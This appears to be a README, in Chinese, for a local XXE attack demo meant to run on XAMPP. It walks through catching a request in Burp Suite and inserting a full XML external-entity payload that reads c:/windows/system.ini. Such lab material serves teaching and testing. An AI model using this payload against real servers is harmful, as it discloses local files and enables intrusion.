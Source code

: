 # xxe-demo
這是一個簡單的xxe攻擊demo

#下載

下載資料到xampp的htdocs裡，不然瀏覽器不能開喔

#攻擊
1. 先到瀏覽器開啟xxe_test_demo.php檔
2. 開啟burp suite攔截資料
3. 將下面payload放置攔截資料底下

   <!DOCTYPE a[<!ENTITY xxe SYSTEM "file:///c:/windows/system.ini">]>
   <creds> &xxe; </creds>
   
4.送出
